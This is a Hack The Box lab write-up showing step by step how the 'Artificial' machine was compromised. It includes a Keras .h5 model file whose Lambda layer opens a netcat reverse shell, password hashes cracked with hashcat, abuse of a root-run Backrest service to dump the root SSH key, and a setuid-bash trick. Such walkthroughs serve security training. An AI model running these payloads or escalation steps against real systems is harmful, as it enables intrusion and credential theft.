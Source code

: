 ```yaml
---
title: Artificial - HTB
date: 2025-06-26 01:00:00 +0200
categories: [Hack The Box, Linux0]
tags: [ Linux , File-Upload , Service-Abuse ]
toc: true
comments: true
image: ./assets/img/attachments/Artificial-1.png
imageNameKey: Artificial
---
```

Hey Everyone! Today I'm going to demonstrate how I pwned Artificial machine from hack the box, it's 7/1000 write-up. Lets goo!
## Port Enumeration
lets see what we have open for this ip:
```bash
sudo nmap -sS 10.10.11.74 -F -Pn -A
```
I started with -F to speed the process, then will run -p-
```bash
Nmap scan report for 10.10.11.74
Host is up (0.43s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://artificial.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 23/tcp)
HOP RTT       ADDRESS
1   390.30 ms 10.10.16.1
2   199.20 ms 10.10.11.74
                                                                 
```
note: -p- didn't show anything new

I will check the website running on port 80 until full port enumeration is done.
After taking a close look on this web app, and creating an account, there was a requirements file at the upload section
![](/assets/img/attachments/Artificial.png)
```
Please ensure these requirements are installed when building your model, or use our Dockerfile to build the needed environment with ease.
```

So we need an .h5 file with this requirements, we have two options:
	1- either to use this tensorflow version
	2- or to use the docker file downloaded from this web page
	
![](/assets/img/attachments/Artificial-2.png)
building this docker
```bash
sudo docker build -t my-tf-container .
```
![](/assets/img/attachments/Artificial-3.png)

to be able to mount codes from the directory of my host:
```bash
sudo docker run -it -v $(pwd):/code my-tf-container
```

We will use this code to trigger a reverse shell. Why does this work?  
The web application allows users to upload `.h5` files without any validation. These files are based on the HDF5 format and can contain embedded Python objects. Keras uses `pickle` internally to deserialize custom objects when loading these model files. And by  including a malicious pickled object in the `.h5` file, it will lead to Remote Code Execution (RCE) during deserialization.
## Initial Access
I tried several codes with the help of ChatGPT but didn't trigger the reverse shell, but this one did 
[exploit code from github](https://github.com/Splinter0/tensorflow-rce/blob/main/exploit.py)

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.66 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```
![](/assets/img/attachments/Artificial-4.png)
Now after uploading this file and triggering it by `view predicitons` (Which the run_model endpoint)
RCE was triggered and we got the reverse shell!
![](/assets/img/attachments/Artificial-5.png)
## Lateral Movement
with more digging in those directories
![](/assets/img/attachments/Artificial-6.png)

I downloaded this file to my machine by 
```bash
python3 -m http.server (victim)
curl http://10.10.11.74:8000/users.db --output users.db (my machine)
```
Its sqlite file
![](/assets/img/attachments/Artificial-7.png)

Since there are multiple users, and to avoid wasting time, we can focus on the initial access we already have. In the `/home` directory, we find two user folders: `app` (which is our current user) and `geal`
lets try to crack geal pass
```bash
hashcat -m 0 c99175974b6e192936d97224638a34f8 /usr/share/wordlists/rockyou.txt
```
![](/assets/img/attachments/Artificial-8.png)
And got the password!
And i logged in as gael using ssh!
## Service Abuse
Then I ran linpeas, I didn't get any direct exploits, but active ports catches my eyes
![](/assets/img/attachments/Artificial-9.png)

port 5000 runs artificial.htb locally but what's on 9898?
using this command for port forwarding
```bash
ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898
```

![](/assets/img/attachments/Artificial-10.png)
There's this service running, but it has no direct public exploits. So the question here is: **what is this service?**

Running `backrest -h` reveals that it's a binary named `backrest` that exposes several command-line flags. This helped confirm that the service is **Backrest**, a web-based UI wrapper for the `restic` backup tool. It's intended to manage and automate backups in a self-hosted environment. It supports multiple repository backends — such as local storage, SFTP, S3, B2, and others supported by `restic` — and allows users to configure and schedule backups directly from the web interface.
since its a backup tool, i went back to linpeas output
![](/assets/img/attachments/Artificial-11.png)
There's backrest backup file!
I couldn't extract its content although i have read permission on it, because tar is recreating a folder to insert the uncompressed content in it and i don't have permissions to mkdir in this directory!
I transferred the file to my machine using http server, or u can copy it to geal user folder and uncompressed it there
In config.json:
![](/assets/img/attachments/Artificial-12.png)
we have bcrypt hash password which base 64 encoded

```bash
echo 'JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP' | base64 -d
```
To find hashcat mode
```bash
hashcat -h | grep bcrypt
```
and got the password using hashcat
```bash
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt -a 0
```
logging in with this user
I created Restic repo
![](/assets/img/attachments/Artificial-13.png)

Then from running help command in Run Command option it was clear that i can backup any file (this service runs with root permission)
The easy way is to get the root flag and we can do the same to get root priv ssh key
![](/assets/img/attachments/Artificial-14.png)
![](/assets/img/attachments/Artificial-15.png)
We need the id 60... to be used with dump command
![](/assets/img/attachments/Artificial-16.png)
And to get ssh key
![](/assets/img/attachments/Artificial-17.png)
![](/assets/img/attachments/Artificial-18.png)
And ROOTED!!
## Extra Tip
I saw another neat root method where someone abused the `--restic-cmd` flag and used an environment variable like `RESTIC_PASSWORD_COMMAND='/bin/chmod +s /bin/bash'` to make bash setuid and get root — definitely a clever trick.
![](/assets/img/attachments/Artificial-19.png)

